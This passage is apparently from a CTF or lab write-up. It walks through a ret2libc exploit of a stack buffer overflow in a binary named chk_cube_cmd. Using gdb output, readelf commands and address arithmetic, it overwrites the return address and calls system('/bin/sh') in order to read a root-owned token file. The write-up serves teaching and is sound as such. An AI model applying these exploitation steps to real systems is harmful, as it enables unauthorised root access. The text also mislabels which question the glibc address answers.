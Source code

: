 We can confirm that the return address is at a 76-byte offset from the start of the on-stack buffer:

```
$ gdb -q --args chk_cube_cmd $(python2 -c 'print "A"*76 + "\xef\xbe\xad\xde"')
Reading symbols from chk_cube_cmd...
(No debugging symbols found in chk_cube_cmd)
(gdb) r
Starting program: /usr/sbin/chk_cube_cmd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
cube_cmd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAﾭ�

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

The program segfaults after "returning" to the invalid "caller" address of `0xdeadbeef`. This answers Question 1.

## Question 2

_What is the content of `/root/token.txt` on the `cube` server?_

As mentioned above, an attempt at injecting executable shellcode into the stack and returning to *it* will fail due to the `NX` attribute being enabled on the memory region containing the stack.

```
$ ldd /usr/sbin/chk_cube_cmd    
	linux-gate.so.1 (0xf7fcf000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dcc000)
	/lib/ld-linux.so.2 (0xf7fd1000)
```

Let's once again make a note of the address at which `glibc` is mapped into the process address space: `0xf7dcc000`. This is the answer to the second question (worth 5%).

It may be relatively straightforward to get `chk_cube_cmd` to execute a shell by arranging a "return" to the `system()` function in `glibc`, and providing it with a pointer to the string `"/bin/sh"`,  to force the program to call `system("/bin/sh")`.

Let's find out what the offset of `system()` is within `glibc`:

```
$ readelf -all /lib32/libc.so.6 | grep ' system'
  1537: 00041360    63 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.0
```

The offset of `system()` is `0x00041360`.

Since the offset is relative to the start of `glibc`, the absolute address within the process virtual memory at which `system()` is located will be `0xf7dcc000 + 0x00041360 = 0xf7e0d360`.

To call `system()` with an argument, the stack needs to contain the following data:

```
... | addr. of system() | ret. addr. from system() | 1st arg. to system() | ...
```
